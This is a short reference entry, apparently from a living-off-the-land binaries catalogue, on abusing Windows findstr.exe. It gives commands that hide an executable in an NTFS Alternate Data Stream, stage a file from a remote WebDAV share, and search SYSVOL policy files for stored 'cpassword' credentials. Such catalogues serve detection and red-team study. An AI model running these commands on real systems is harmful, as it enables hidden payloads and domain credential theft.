 ## Findstr.exe

* Functions: Add ADS, Search

```
findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe    

findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe    

findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\findstr.exe
c:\windows\sysWOW64\findstr.exe
```

Notes:
Some specific details about the binary file.


 
